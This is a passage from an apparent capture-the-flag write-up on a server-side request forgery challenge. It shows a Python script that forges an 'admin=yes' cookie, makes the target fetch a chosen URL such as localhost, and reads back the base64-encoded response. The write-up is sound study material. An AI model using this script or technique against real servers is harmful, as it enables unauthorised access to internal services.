 Damn, I got a pretty large response. After decoding it, turns out, it is a default apache page, same as we see when visiting the IP directly. So it confirms that we are able to send requests to localhost.

![imager](https://i.imgur.com/Dt5HDcV.png)

![imager2](https://i.imgur.com/BVhX9ZB.png)

But that won't be much usefull, since the IP is of a `DigitalOcean` box, and we can't even send requests to any other port than the default web server port(80) due to the constrains.

Now I just wanted to play around with constrains and see how much I can bend them, so I wrote a quick python script which would take the `domain` as a command line parameter, send the first request, and then read the response from `read.php`. Here is the script.

```python
import requests
import sys
import json

if len(sys.argv) < 2:
	print "No domain supplied"
	exit(0)

data = '{"domain":"%s"}'

domain = 'http://admin.acme.org/index.php'
readp = 'http://admin.acme.org/read.php?id=%d'

def readId(idd):
	if idd == -1:
		return ""
	print "Reading id -> %d"%idd
	return requests.get(readp%idd,cookies={'admin':'yes'},timeout=2.5).json()['data']

def getId(val):
	ret = requests.post(domain,json=json.loads(data%val), cookies={'admin':'yes'}, timeout=2.5).json()
	if 'error' in ret:
		print "Error -> %s"%ret['error']
		return -1
	else:
		return int(ret['next'].split("=")[1])
try:
	res = readId(getId(sys.argv[1])).decode('base64')
except:
	res = ""

if res == "":
	print "Empty response"
else:
	print res
  ```
